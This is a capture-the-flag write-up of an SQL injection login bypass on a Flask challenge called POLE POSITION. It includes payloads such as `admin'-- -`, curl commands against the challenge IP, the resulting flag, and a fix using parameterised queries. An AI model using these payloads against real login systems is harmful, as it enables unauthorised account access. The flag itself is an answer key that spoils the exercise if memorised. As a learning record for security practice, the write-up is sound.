

# POLE POSITION, SQL Injection Auth Bypass, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | POLE POSITION ("motorsport" / paddock login) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8060 (EC2 instance) |
| **IP:Port** | `54.72.82.22:8060` |
| **Flag format** | `safctf{...}` |
| **Author** | lacmyst |
| **Date** | 2026-10-02 |
| **Outcome** | Logged in as `admin` with a one-line **SQL injection** (`admin'-- -`), which revealed the flag. Simple one. |

---

## 1. The Short Version

Another login box, "Paddock access", and this time it really was **SQL injection**. The baseline tell did half the work: logging in with *any* junk creds (`test/test`) returned *"Welcome back user test, **Flag at admin user**."* So the app lets anyone in but only shows the flag **when you are the `admin` user**. The whole challenge is therefore "become admin."

Classic `' OR '1'='1` alone failed (the trailing `AND password=...` broke it), but commenting the tail out did it: **`username = admin'-- -`** closes the username string and comments away the password check, logging me in as admin. Flag printed. Done.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{30f33ad5be8abc02f034b5b266ff6b81}` | SQLi auth bypass: `username=admin'-- -` |

---

## 1.1 Attack Chain



---

## 2. Weakness I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Username concatenated into the SQL query string | **SQL Injection** (CWE-89) | `/` login → `username` | Critical (auth bypass) |

---

## 3. Recon & the Key Tell

```bash
$ curl -s -X POST http://54.72.82.22:8060/ -d 'username=test&password=test'
...<p>Welcome back user test, Flag at admin user</p>
```
Two facts fall out:
- **Any credentials "succeed"**, there's effectively no real auth gate on *logging in*.
- The flag is **gated on identity**: *"Flag at admin user."* So I don't need to crack a password, I need the app to think I'm **admin**.

---

## 4. Finding the Right Payload

I tested the injection classes to pin the backend:

| `username` payload (`password=x`) | Result | Read |
|---|---|---|
| `' OR '1'='1` | Login failed | quote breaks; trailing `AND password` kills it |
| `admin)(&)` (LDAP) | Login failed | **not** LDAP (unlike ROSTER HQ) |
| `admin'-- -` | **Welcome back user admin + flag** | ✅ SQL comment bypass |

`admin'-- -` is the money shot. The space after `--` matters in MySQL (a comment needs `-- ` + something), hence `-- -`.

---

## 5. The Exploit

```bash
$ curl -s -X POST http://54.72.82.22:8060/ \
    --data-urlencode "username=admin'-- -" --data-urlencode "password=x" \
  | grep -oE 'safctf\{[^}]*\}'
safctf{30f33ad5be8abc02f034b5b266ff6b81}
```
The server builds roughly:
```sql
SELECT * FROM users WHERE username='admin'-- -' AND password='x'
```
- `'` closes the username literal,
- `-- -` comments out the rest of the line (**the entire password check**),
- the query returns the **admin** row → the app greets me as admin and prints the flag.

> **Flag:** `safctf{30f33ad5be8abc02f034b5b266ff6b81}`

---

## 6. Why It Worked & How I'd Fix It

- *Cause:* user input is concatenated into the SQL string, so `'` + `-- -` rewrites the query's logic.
- *Fix:* **parameterised queries / prepared statements**, `WHERE username=? AND password=?`, so input is bound as data, never parsed as SQL. Store passwords hashed and compare the hash in code, not inline in the query. (Also: don't gate secrets purely on a username the query can be tricked into returning.)

---

## 7. Timeline

- `/` → "Paddock access" login form.
- Baseline `test/test` → "Welcome back user test, **Flag at admin user**" → goal = become admin.
- `' OR '1'='1` → failed; LDAP payloads → failed (so it's SQL, not LDAP).
- `username=admin'-- -` → logged in as admin → **flag**.

---

## 8. References

- OWASP: SQL Injection; CWE-89
- MySQL comment syntax (`-- ` requires a trailing space/char; `#` also works)
- PortSwigger SQLi auth-bypass cheat sheet
- `curl --data-urlencode` to send `'` and `-- -` safely

---

## 9. Appendix, One-liner

```bash
curl -s -X POST http://54.72.82.22:8060/ --data-urlencode "username=admin'-- -" --data-urlencode "password=x" | grep -oE 'safctf\{[^}]*\}'
```
Lesson I'm keeping: **when a login resists `' OR '1'='1`, comment the tail out (`admin'-- -`)**, and read the baseline, because "Flag at admin user" told me the whole objective before I sent a single payload.
